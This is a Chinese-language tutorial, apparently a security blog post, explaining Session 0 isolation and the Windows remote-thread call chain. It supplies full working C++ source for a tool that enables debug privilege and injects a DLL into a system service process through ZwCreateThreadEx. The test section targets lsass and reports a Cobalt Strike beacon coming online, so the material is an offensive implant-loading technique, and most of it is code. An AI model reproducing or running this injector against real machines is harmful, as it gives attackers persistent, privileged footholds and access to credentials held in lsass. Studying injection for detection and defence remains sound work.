





# 前言

当我们使用远程线程注入将dll注入至系统服务进程中往往会失败，这是因为大多数系统服务都是在Session0中运行的

"Session 0"是Windows操作系统中的一个特殊的会话，专门用于运行系统服务和其他在用户登录之前就需要运行的程序。从Windows Vista和Windows Server 2008开始，为了提高安全性，Windows将用户和系统服务分隔在不同的会话中。具体来说，所有的服务和系统任务都在Session 0中运行，而所有用户交互任务都在其他会话中运行

"Session 0注入"一般指的是把一个程序（通常是一个恶意程序）注入到Session 0的过程。因为Session 0有许多特权，所以如果恶意程序能够成功注入到Session 0，就可以获得比正常用户更高的权限，从而进行更多的恶意操作

然而，由于Windows Vista和后续版本的Windows的安全性提高，使得Session 0注入变得更加困难。尤其是，Session 0是隔离的，不能直接与用户的图形会话进行交互

	


<br>

<br>		

# 远程线程注入函数调用流程

## 1.CreateRemoteThreadStub

`CreateRemoteThreadStub`是在`kernel32.dll`中，用于对`CreateRemoteThread`函数的封装，对`CreateRemoteThread`的参数进行处理，由原来的7个参数扩展到8个参数，并对`dwCreationFlags`参数进行安全处理



<br>

## 2.CreateRemoteThread

`CreateRemoteThread`函数位于KernelBase.dll中，最终调用了`NtCreateThreadEx`函数


<br>

## 3.NtCreateThread

`NtCreateThread`是内核级别的函数，它是属于NTDLL库中的一部分。NTDLL库中的函数主要是由操作系统的内核（即内核模式）使用的，而用户模式的程序一般不直接调用这些函数


<br>

`mov eax, 0C7h`：将值`0c7h`移动至eax寄存器，表示执行编号为`0c7h`的系统调用

`syscall`：这是执行系统调用的指令。系统调用编号和参数应在此之前已被设置好（在这种情况下，通过将 `0xC7` 和 `rcx` 的内容移动到 `eax` 和 `r10`）

这段代码表示执行编号为 `0xC7` 的系统调用，如果 `ds:7FFE0308h` 的最低位被设置，那么在系统调用前会先跳转到另一段代码（位于 `loc_1800A0525`，使用`int 2Eh`中断进入内核）。如果该位未被设置，那么直接执行系统调用



<br>

## 总结	

以下是`CreateRemoteThread`函数的调用流程图

1. 应用程序调用 `CreateRemoteThread`，这是一个由 `kernel32.dll` 提供的 Win32 API，用于在另一个进程的地址空间中创建新线程。
2. `CreateRemoteThread` 内部调用 `CreateRemoteThreadEx`，这是一个由 `KernelBase.dll` 提供的更底层的 API，提供了更多的选项，比如可以指定安全描述符，可以控制新线程是否立即开始运行等
3. `CreateRemoteThreadEx` 内部调用 `NtCreateThreadEx`，这是由 `ntdll.dll` 提供的 Native API，也是用户空间可以直接调用的最底层的 API。
4. `NtCreateThreadEx` 函数设置好系统调用的参数后，执行 `syscall` 指令，切换到内核模式。
5. 在内核模式下，根据 `syscall` 提供的系统调用编号，在 SSDT 表中查找对应的内核函数。
6. 执行 SSDT 表中找到的函数，完成线程的创建。

	

<br>

# 普通线程和远程线程的区别

可以看到普通线程函数`CreateThread`也调用了`CreateRemoteThread`函数，只不过其线程句柄参数的值为-1，而远程线程的句柄参数为一个具体的值


<br>

# 代码实现思路

## 1.`ZwCreateThread`函数的声明及定义

当我们使用DLL注入系统服务的进程时会失败，失败的原因在于，当`CreateRemoteThread`函数尝试在Session 0隔离的系统服务进程中注入DLL时，它通过调用`ZwCreateThread`函数创建远程线程，其中第七个参数`CreateThreadFlags`被设置为1。这意味着创建的线程在完成后将被挂起，无法被恢复，因此导致注入失败。为了成功注入，需通过调用`ZwCreateThreadEx`函数将此参数修改为0。

以下是对`ZwCreateThreadEx`函数的描述：

```cpp
NTSTATUS ZwCreateThreadEx(
    OUT PHANDLE ThreadHandle,  //输出参数，新创建的线程的句柄。
    IN ACCESS_MASK DesiredAccess,  //所需的访问权限标志，例如PROCESS_ALL_ACCESS代表全部权限
    IN PVOID ObjectAttributes,  //对象的属性，通常为NULL。
    IN HANDLE ProcessHandle,  //所创建线程将要在其内运行的进程的句柄
    IN PTHREAD_START_ROUTINE StartRoutine,  //新线程的开始地址
    IN PVOID Argument,  //要传递给新线程的参数
    IN ULONG CreateFlags,  //要传递给新线程的参数
    
    //ZeroBits, StackSize, MaximumStackSize: 这些参数一般设置为0，表示使用默认的堆栈大小
    IN ULONG_PTR ZeroBits,  
    IN SIZE_T StackSize,
    IN SIZE_T MaximumStackSize,
    
    IN PPS_ATTRIBUTE_LIST AttributeList  //用于传递更高级的线程属性，通常设置为NULL
);

```

<br>

由于`ZwCreateThread`函数未在官方文档中说明，所以我们需对`ZwCreateThread`函数进行声明：

```cpp
#ifdef _WIN64
typedef DWORD(WINAPI* Fn_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI* Fn_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	BOOL CreateSuspended,
	DWORD dwStackSize,
	DWORD dw1,
	DWORD dw2,
	LPVOID pUnkown);
#endif
```

<br>

然后通过`GetProcAddress`函数来获取这个函数

```cpp
HMODULE hNtdllDll = LoadLibrary("ntdll.dll");
	Fn_ZwCreateThreadEx ZwCreateThreadEx = (Fn_ZwCreateThreadEx)GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
	if (NULL == ZwCreateThreadEx)
	{
		printf("GetProcAddress error\n");
		return -1;
	}
```

<br>

## 2.提升进程权限

如果要将dll注入至系统服务进程，还需提升当前进程的权限，以下是提权函数的代码：

```cpp
// 提权函数，启用调试特权
BOOL EnableDebugPrivilege()
{
	HANDLE hToken; // 用于保存进程访问令牌的句柄
	BOOL fOk = FALSE; // 用于保存函数是否执行成功的状态

	// 获取当前进程的访问令牌
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		TOKEN_PRIVILEGES tp; // 用于保存特权信息的结构体
		tp.PrivilegeCount = 1; // 设置特权数量为1

		// 获取“Debug Programs”特权的本地唯一标识符（LUID）
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);

		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED; // 设置特权的属性为启用

		// 调整访问令牌，启用“Debug Programs”特权
		AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);

		fOk = (GetLastError() == ERROR_SUCCESS); // 检查是否成功启用特权
		CloseHandle(hToken); // 关闭访问令牌的句柄
	}
	return fOk; // 返回函数是否执行成功的状态
}
```

<br>

## 3.Session0注入函数

此函数的主要作用是在Session0中注入指定的DLL。其步骤包括提权、打开目标进程、在目标进程中分配内存并写入DLL路径、获取LoadLibraryA函数地址、获取ZwCreateThreadEx函数地址、在目标进程中创建线程运行LoadLibraryA函数，最后释放资源

```cpp
BOOL Session0Inject(DWORD pid, char* dllPath)
{	
	EnableDebugPrivilege();  //提权
	DWORD DllNameLength = strlen(dllPath);  //获取dll路径名的长度

	// 检查文件是否存在  注意:<filesystem>库需使用支持C++17或更高版本的编译器
	if (!std::filesystem::exists(dllPath)) {
		printf("指定的DLL文件不存在\n");
		return -1;
	}

	//1 获取目的进程句柄
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	if (hProcess == NULL)
	{
		printf("打开进程失败: %d\n", GetLastError());
		return -1;
	}

	//2 为目的进程分配内存,用于存放Loadlibrary传入的参数,即dll的路径
	VOID* paraAddr = VirtualAllocEx(hProcess, NULL, DllNameLength + 1, MEM_COMMIT, PAGE_READWRITE);
	if (NULL == paraAddr)
	{
		printf("内存分配失败\n");
		return -1;
	}

	//3 将DLL的路径写到目标进程的内存
	if (!WriteProcessMemory(hProcess, paraAddr, dllPath, DllNameLength + 1, NULL))
	{
		printf("写入内存失败！\n");
		return false;
	}

	//4 获取loadlibrary函数的地址
	HMODULE LibHandle = GetModuleHandle("kernel32.dll");
	FARPROC ProcAdd = GetProcAddress(LibHandle, "LoadLibraryA");
	if (!ProcAdd)
	{
		printf("获取LoadLibraryA失败!\n");
		return false;
	}

	//5 通过调用GetProcAddress函数来获取ZwCreateThreadEx函数的地址
	HMODULE hNtdllDll = LoadLibrary("ntdll.dll");
	DWORD dwStatus;
	HANDLE hRemoteThread; 
	Fn_ZwCreateThreadEx ZwCreateThreadEx = (Fn_ZwCreateThreadEx)GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
	if (NULL == ZwCreateThreadEx)
	{
		printf("GetProcAddress error\n");
		return -1;
	}

	//6 使用获取到的ZwCreateThreadEx函数在目标进程中创建线程，运行LoadLibraryA函数，参数为DLL路径
	dwStatus = ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess,
		(LPTHREAD_START_ROUTINE)ProcAdd, paraAddr, 0, 0, 0, 0, NULL);
	if (NULL == ZwCreateThreadEx)
	{
		printf("ZwCreateThreadEx error\n");
		return -1;
	}

	//释放dll
	FreeLibrary(hNtdllDll);

	//释放句柄
	CloseHandle(hRemoteThread);
	CloseHandle(hProcess);
}
```

<br>

# 完整代码

```cpp
#include <iostream>
#include <windows.h>
#include <TlHelp32.h>
#include <string>
#include <filesystem>

#ifdef _WIN64
typedef DWORD(WINAPI* Fn_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	ULONG CreateThreadFlags,
	SIZE_T ZeroBits,
	SIZE_T StackSize,
	SIZE_T MaximumStackSize,
	LPVOID pUnkown);
#else
typedef DWORD(WINAPI* Fn_ZwCreateThreadEx)(
	PHANDLE ThreadHandle,
	ACCESS_MASK DesiredAccess,
	LPVOID ObjectAttributes,
	HANDLE ProcessHandle,
	LPTHREAD_START_ROUTINE lpStartAddress,
	LPVOID lpParameter,
	BOOL CreateSuspended,
	DWORD dwStackSize,
	DWORD dw1,
	DWORD dw2,
	LPVOID pUnkown);
#endif

//获取进程ID的函数
DWORD GetProcessIdByName(const std::wstring& name) {
	DWORD pid = 0;
	HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (snap != INVALID_HANDLE_VALUE) {
		PROCESSENTRY32W entry = { sizeof(entry) };
		if (Process32FirstW(snap, &entry)) {
			do {
				if (std::wstring(entry.szExeFile) == name) {
					pid = entry.th32ProcessID;
					break;
				}
			} while (Process32NextW(snap, &entry));
		}
		CloseHandle(snap);
	}
	return pid;
}


//提权函数，启用调试特权
//这个函数的主要作用是启用当前进程的“debug programs”特权，这个特权允许进程附加到其他进程并控制它们
BOOL EnableDebugPrivilege()
{	
	
	HANDLE hToken; // 用于保存进程访问令牌的句柄
	BOOL fOk = FALSE; // 用于保存函数是否执行成功的状态

	// 获取当前进程的访问令牌
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &hToken))
	{
		TOKEN_PRIVILEGES tp; // 用于保存特权信息的结构体
		tp.PrivilegeCount = 1; // 设置特权数量为1

		// 获取“Debug Programs”特权的本地唯一标识符（LUID）
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &tp.Privileges[0].Luid);

		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED; // 设置特权的属性为启用

		// 调整访问令牌，启用“Debug Programs”特权
		AdjustTokenPrivileges(hToken, FALSE, &tp, sizeof(tp), NULL, NULL);

		fOk = (GetLastError() == ERROR_SUCCESS); // 检查是否成功启用特权
		CloseHandle(hToken); // 关闭访问令牌的句柄
	}
	return fOk; // 返回函数是否执行成功的状态
}


BOOL Session0Inject(DWORD pid, char* dllPath)
{	
	EnableDebugPrivilege();  //提权
	DWORD DllNameLength = strlen(dllPath);  //获取dll路径名的长度

	// 检查文件是否存在  注意:<filesystem>库需使用支持C++17或更高版本的编译器
	if (!std::filesystem::exists(dllPath)) {
		printf("指定的DLL文件不存在\n");
		return -1;
	}

	//1 获取目的进程句柄
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	if (hProcess == NULL)
	{
		printf("打开进程失败: %d\n", GetLastError());
		return -1;
	}

	//2 为目的进程分配内存,用于存放Loadlibrary传入的参数,即dll的路径
	VOID* paraAddr = VirtualAllocEx(hProcess, NULL, DllNameLength + 1, MEM_COMMIT, PAGE_READWRITE);
	if (NULL == paraAddr)
	{
		printf("内存分配失败\n");
		return -1;
	}

	//3 将DLL的路径写到目标进程的内存
	if (!WriteProcessMemory(hProcess, paraAddr, dllPath, DllNameLength + 1, NULL))
	{
		printf("写入内存失败！\n");
		return false;
	}

	//4 获取loadlibrary函数的地址
	HMODULE LibHandle = GetModuleHandle("kernel32.dll");
	FARPROC ProcAdd = GetProcAddress(LibHandle, "LoadLibraryA");
	if (!ProcAdd)
	{
		printf("获取LoadLibraryA失败!\n");
		return false;
	}

	//5 通过调用GetProcAddress函数来获取ZwCreateThreadEx函数的地址
	HMODULE hNtdllDll = LoadLibrary("ntdll.dll");
	DWORD dwStatus;
	HANDLE hRemoteThread; 
	Fn_ZwCreateThreadEx ZwCreateThreadEx = (Fn_ZwCreateThreadEx)GetProcAddress(hNtdllDll, "ZwCreateThreadEx");
	if (NULL == ZwCreateThreadEx)
	{
		printf("GetProcAddress error\n");
		return -1;
	}

	//6 使用获取到的ZwCreateThreadEx函数在目标进程中创建线程，运行LoadLibraryA函数，参数为DLL路径
	dwStatus = ZwCreateThreadEx(&hRemoteThread, PROCESS_ALL_ACCESS, NULL, hProcess,
		(LPTHREAD_START_ROUTINE)ProcAdd, paraAddr, 0, 0, 0, 0, NULL);
	if (NULL == ZwCreateThreadEx)
	{
		printf("ZwCreateThreadEx error\n");
		return -1;
	}

	//释放dll
	FreeLibrary(hNtdllDll);

	//释放句柄
	CloseHandle(hRemoteThread);
	CloseHandle(hProcess);
}


int main(int argc, char* argv[])
{
	if (argc == 3)
	{	
		//atoi函数可将字符串转化为整数
		BOOL bRet = Session0Inject((DWORD)atoi(argv[1]), argv[2]);
		
		if (-1 == bRet)
		{
			printf("Inject dll failed\n");
		}
		else
		{
			printf("Inject dll successfully\n");
		}
	}
	else
	{
		printf("你需输入两个参数,参数1为pid,参数2为dll的绝对路径\n");
		exit(1);
	}
}
```

<br>

# 运行测试

首先获取lsass进程的PID，此处为696

	


<br>

以管理员权限运行cmd，使用session0注入将dll注入至lsass进程中

			

<br>

Cobalt Strike成功上线


<br>

在火绒剑可以看到lsass进程注入的dll

	